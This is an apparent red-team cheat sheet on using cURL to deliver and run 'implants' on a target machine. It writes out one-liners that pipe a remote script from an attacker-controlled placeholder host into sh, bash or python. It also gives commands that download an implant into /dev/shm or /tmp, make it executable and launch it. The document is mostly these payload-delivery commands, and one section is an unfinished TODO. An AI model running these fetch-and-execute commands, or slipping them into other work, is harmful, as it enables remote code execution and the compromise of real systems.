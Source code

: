# cURL

## 01 - Fileless code execution

```
$ curl http[s]://<IP>/implant.sh | sh

$ curl http[s]://<IP>/implant.sh | bash

$ curl http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download implant and execute it.

```
$ curl -o /dev/shm/implant http[s]://<IP>/implant && chmod +x /dev/shm/implant && /dev/shm/implant
```

## 03 - Dropping on disk

Download implant and execute it.

```
$ curl -o /tmp/implant http[s]://<IP>/implant && chmod +x /tmp/implant && /tmp/implant
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```

---
## References

- [GTFOArgs: curl](https://gtfoargs.github.io/gtfoargs/curl/)